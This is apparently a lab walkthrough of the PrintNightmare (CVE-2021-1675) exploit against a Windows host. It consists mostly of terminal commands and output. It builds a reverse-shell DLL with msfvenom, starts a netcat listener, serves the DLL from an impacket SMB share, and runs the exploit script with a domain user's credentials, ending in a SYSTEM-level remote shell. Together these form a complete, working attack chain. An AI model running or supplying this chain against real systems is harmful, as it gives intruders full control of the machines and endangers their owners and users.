 Best installation : https://github.com/cube0x0/CVE-2021-1675/issues/19

Create a dll for reverse connection

	┌──(kali㉿kali)-[~/Desktop/printnightmare rce/smb]
	└─$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.200.101 LPORT=4444 -f dll -o reverse.dll
	[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
	No encoder specified, outputting raw payload
	Payload size: 460 bytes
	Final size of dll file: 8704 bytes
	Saved as: reverse.dll


Start listener

	┌──(kali㉿kali)-[~/Desktop/printnightmare rce/smb]
	└─$ nc -lvnp 4444                 
	listening on [any] 4444 ...


Start smb server for sharing dll

	┌──(kali㉿kali)-[~/Desktop/printnightmare rce]
	└─$ sudo /usr/bin/impacket-smbserver share smb -smb2support
	Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

	[*] Config file parsed
	[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
	[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
	[*] Config file parsed
	[*] Config file parsed
	[*] Config file parsed


Run exploit (i got error but still could get reverse shell somehow)

	┌──(PrintNightmare)(kali㉿kali)-[~/Desktop/printnightmare rce/CVE-2021-1675]
	└─$ python CVE-2021-1675.py valhalla/testuser:'Pass123!'@192.168.200.112 '\\192.168.200.101\share\reverse.dll'          
	[*] Connecting to ncacn_np:192.168.200.112[\PIPE\spoolss]
	[+] Bind OK
	[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_c62e9f8067f98247\Amd64\UNIDRV.DLL
	[*] Executing \??\UNC\192.168.200.101\share\reverse.dll
	[*] Try 1...
	[*] Stage0: 0
	[*] Try 2...
	
Check back netcat listener

	┌──(kali㉿kali)-[~/Desktop/printnightmare rce/smb]
	└─$ nc -lvnp 4444
	listening on [any] 4444 ...
	connect to [192.168.200.101] from (UNKNOWN) [192.168.200.112] 62863
	Microsoft Windows [Version 10.0.19043.928]
	(c) Microsoft Corporation. All rights reserved.

	C:\Windows\system32>whoami
	whoami
	nt authority\system

	C:\Windows\system32>

